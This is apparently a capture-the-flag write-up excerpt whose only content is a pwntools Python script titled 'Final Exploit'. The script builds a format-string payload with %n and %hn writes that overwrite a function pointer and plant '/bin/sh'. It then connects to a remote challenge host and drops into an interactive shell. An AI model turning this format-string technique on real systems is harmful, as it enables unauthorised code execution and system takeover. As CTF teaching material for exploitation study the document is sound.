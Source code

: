 # Final Exploit
```python
from pwn import *

write_0x100_addr = p32(0x0804A02b)
choose_arg = 0x080486C7
function_pointer = p32(choose_arg)
bin_sh_addr = 0x0804A020
arg_addr = 0x0804A030

payload  = write_0x100_addr
payload += "%"+str(0x100-4)+"p"+ "%20$n"
payload = payload.ljust(20, "A")
payload += function_pointer
payload += p32(arg_addr+2)
payload += p32(arg_addr)
payload += p32(bin_sh_addr+4)
payload += p32(bin_sh_addr)
payload += p32(bin_sh_addr+6)
payload += p32(bin_sh_addr+2)
#written 0x122 = 290

payload += "%1762p"
payload += "%26$hn"
#written 0x804

payload += "%10027p"
payload += "%28$hn"
#written 0x2f2f

payload += "%13056p"
payload += "%29$hn"
#written 0x622f

payload += "%1604p"
payload += "%30$hn"
#written 0x6873

payload += "%1526p"
payload += "%31$hn"
#written 0x6e69

payload += "%12727p"
payload += "%27$hn"


p = remote("37.139.17.37", 7331)
p.sendline(payload)
p.interactive() # got shell
p.close()
```
![alt text](./images/flag.png)
